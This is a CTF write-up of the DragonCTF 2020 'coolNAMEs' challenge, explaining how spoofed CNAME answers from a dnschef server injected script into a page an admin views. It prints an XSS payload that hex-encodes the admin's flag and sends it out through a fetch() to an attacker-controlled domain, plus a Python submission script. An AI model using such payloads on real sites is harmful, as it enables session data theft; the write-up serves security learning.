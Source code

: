 ```yaml
---
layout: post
title: "[DragonCTF 2020] coolNAMEs (19 solves)"
author: Filip Kilibarda
---
```


# coolNAMEs

Challenge front page: 

![](/assets/images/dragonctf2020/coolnames/frontpage.gif)

You had to give it an IP address and then it called the function `make_query`.

I didn't know much about what `make_query` did at this point except that it was probably a DNS lookup of some sort (hint: port 53, coolNAMEs, etc.).

Running `make_query` on 127.0.0.1 resulted in the page just hanging. I guess because there was no DNS server listening on localhost of the server.

Running with `8.8.8.8` (one of Google's DNS server's), we got

![](/assets/images/dragonctf2020/coolnames/queryresult.png)

Ok so apparenty there was no query result... I had no idea what they were querying for. Also the note about the flag... wasn't sure what to think of this at the time.

Next step was to figure out what kind of DNS query they were sending. For that, I needed to run a DNS server on a public IP and tell them to query my server. 

I still had some free credits on Vultr (*I wish they were paying me to say this*), so I started an instance with a public ipv4 address.

On the instance I ran a simple `nc` command to listen on the public ip port 53, then submitted my ip to the web form.

![](/assets/images/dragonctf2020/coolnames/nclisten.png)

Obviously this was a DNS request, but I couldn't tell what exactly it was requesting beyond maybe `5bt5f.7i` for the domain name. 

`sudo tcpdump -i ens3 -w tcpdump.pcap` + wireshark

![](/assets/images/dragonctf2020/coolnames/wireshark.png)

When I ran it again, the requested domain name this time was `f357c.3f` and thanks to wireshark, I could see that it was a CNAME record request.

Each time I ran it, it requested a different domain name. The names were being generated randomly, so obviously they weren't real registered domain names.

I wanted to see what would happen if their DNS request actually got a result back, but first:

<!-- <pic?> -->

# XSS

Something I didn't put much thought into initially was this:

![](/assets/images/dragonctf2020/coolnames/reportadmin.png)

Jamvie and Robert (who are much more experienced with web stuff), connected the dots between that and this

![](/assets/images/dragonctf2020/coolnames/theflagis.png)

So this clearly meant that the admin user was going to come view the results if the box was checked. And since only the admin could see the flag, this meant that we needed to force the admin to send it to us when they viewed the page (XSS).

# DNS Server

Now I wanted to investigate what would happen if our server actually returned a valid response for their DNS request.

Robert recommended the tool [dnschef](https://github.com/iphelix/dnschef), which just made this so easy. dnschef acts as a man in the middle for all DNS requests, forwarding requests to a real DNS server, e.g., `8.8.8.8`, then for certain chosen domains, it can fake DNS records completely.

Meaning if someone queries my DNS server for `5bt5f.7i`, dnschef could be trivially programed to return arbitrary IP addresses for the request.

A quick test to see what would happen if I made dnschef return `HelloWorld` for all CNAME requests:

![](/assets/images/dragonctf2020/coolnames/dnschefouthelloworld.png)

and the output

![](/assets/images/dragonctf2020/coolnames/helloworldoutput.png)

Instead of `HelloWorld`, we just had to put something in there, like `<script>...</script>` that would cause the admin to execute our javascript in their browser context and leak the flag. However, because of this

![](/assets/images/dragonctf2020/coolnames/remarks.png)

we had to leak the flag out with only DNS requests. However, unlike the first time around, where we got to specify the IP address of the DNS server, this time we couldn't do that and we had to actually get the public DNS system to route a DNS request from the admin's browser to our dnschef server, where we could then retreive the flag from the request.

First, we needed to construct a DNS query that would leak the flag. We did that with essentially this `fetch(http:// + getflagfromadminsHTML().hexencode() + .cd481af3fd77.us.to)` or

`<script>fetch("http://"+document.getElementById('flag').innerText.replaceAll(/./g,(m)=>m.charCodeAt(0).toString(16)).slice(35,90)+'zz'+Math.floor(Math.random()*Math.floor(10000))+".cd481af3fd77.us.to");</script>`{:.nowrap2}

So when the admin would log in and view the site, they would end up executing a fetch to a domain name that had the flag inside it, and we would receive the request at our server.

But again, for this to work we needed the public DNS system to route a DNS request to our dnschef server. For that we had to actually get our dnschef server published on an existing public DNS server.

# Registering our dnschef server

Robert was pretty familiar with this and he actually knew of a website [freedns.afraid.org/](https://freedns.afraid.org/) that would let him register our dnschef server on a public DNS server that handled `us.to.` domains **FOR FREE**. We like free things. The site seems a little sketch though. It causes my CPU to run on high for some reason.

There were two things he needed to do:

1. Register an NS record for our dnschef server
2. Register an A record for our dnschef server (`155.138.221.247`)

Robert chose `cd481af3fd77.us.to.` (*random*) as the domain that our dnschef server should receive requests for.

He gave our dnschef server the domain name `nneonneo-yxe.us.to.`.

Then he made the A record for `nneonneo-yxe.us.to.` = `155.138.221.247`, the IP of the dnschef server.

So now when I sent a DNS request for `cd481af3fd77.us.to.` to `8.8.8.8` (Google), it would do this:

![](/assets/images/dragonctf2020/coolnames/dnslookup.png)

![](/assets/images/dragonctf2020/coolnames/dnslifecycle.png)

Notice at the end it sent the request to our dnschef `155.138.221.247`

![a](/assets/images/dragonctf2020/coolnames/nsrecord.png)

So everything under the `cd481af3fd77.us.to` domain was being handled by the `nneonneo-yxe.us.to` DNS server, which had an IP address of `155.138.221.247` (our dnschef server).

# Retreiving the flag

```
from pwn import *
import requests
import re
from hashlib import sha1
import sys

URL = "http://reverse-lookup.hackable.software/"
r = requests.get(URL)
r = r.text

m = re.search(r"value=\"(.*?)\"", r)
nonce = m.group(1).encode("ascii")

def crack(nonce):
    for _ in range(2**30):
        pow = randoms(20).encode("ascii")
        guess = sha1(nonce + pow).hexdigest()
        if "313377" in guess:
            print(f"Got it: {pow}")
            return pow
    else:
        print("Didn't get it")
        sys.exit(1)

pow = crack(nonce)

nonce = nonce.decode("ascii")
pow = pow.decode("ascii")
ip = "155.138.221.247"

data={"nonce":nonce, "pow": pow, "srv": ip, "for_admin": "on"}
print(data)
r = requests.post(f"{URL}/query?", data=data)
```

![](/assets/images/dragonctf2020/coolnames/flag.png)

And the flag was hex encoded in the DNS request!

`537b4d7573744c7575757576444e535f646f6e7459617d ~= DrgnS{MustLuuuuvDNS_dontYa}`